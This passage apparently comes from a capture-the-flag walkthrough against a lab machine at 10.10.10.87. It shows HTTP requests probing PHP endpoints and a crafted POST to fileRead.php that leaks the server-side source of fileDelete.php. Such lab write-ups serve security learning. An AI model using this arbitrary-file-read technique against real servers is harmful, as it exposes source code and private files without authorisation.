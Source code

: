 ```
HTTP/1.1 200 OK
Server: nginx/1.12.2
Date: Tue, 14 Aug 2018 20:57:33 GMT
Content-Type: application/json
Connection: close
X-Powered-By: PHP/7.1.16
Content-Length: 5

false
```

But that's kind of expected, if we look at the files that are listed above we can see one called 'fileRead.php', so we should probably try to use that one instead of 'dirRead.php' which reads the directory, hints in the name. 

Firing the same response as before but changing the URL to 'fileRead.php' generates the following:

```
HTTP/1.1 200 OK
Server: nginx/1.12.2
Date: Tue, 14 Aug 2018 21:10:19 GMT
Content-Type: application/json
Connection: close
X-Powered-By: PHP/7.1.16
Content-Length: 14

{"file":false}
```

File is false... but we looked for 'path' because we're lazy... so let's change the POST request to 'file' and see if that makes a difference. 

```
POST /fileRead.php HTTP/1.1
Host: 10.10.10.87
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.87/list.html
Content-Type: application/x-www-form-urlencoded
Content-Length: 19
Connection: close

file=fileDelete.php
```

Yup! :) 

```
HTTP/1.1 200 OK
Server: nginx/1.12.2
Date: Tue, 14 Aug 2018 21:13:22 GMT
Content-Type: application/json
Connection: close
X-Powered-By: PHP/7.1.16
Content-Length: 534

{"file":"<?php\n\nif($_SERVER['REQUEST_METHOD'] === \"POST\"){\n\tif(isset($_POST['listnum'])){\n\t\theader('Content-Type: application\/json');\n\t\tif(is_numeric($_POST['listnum'])){\n\t\t\t$myFile = \"\/var\/www\/html\/.list\/list\" . $_POST['listnum'];\n\t\t\tunlink($myFile);\n\t\t\theader('Content-Type: application\/json');\n\t\t\techo '[true]';\n\t\t}else{\n\t\t\theader('Content-Type: application\/json');\n\t\t\techo '[false]';\n\t\t}\n\t}else{\n\t\theader('Content-Type: application\/json');\n\t\techo '[false]';\n\t}\n}\n"}
```
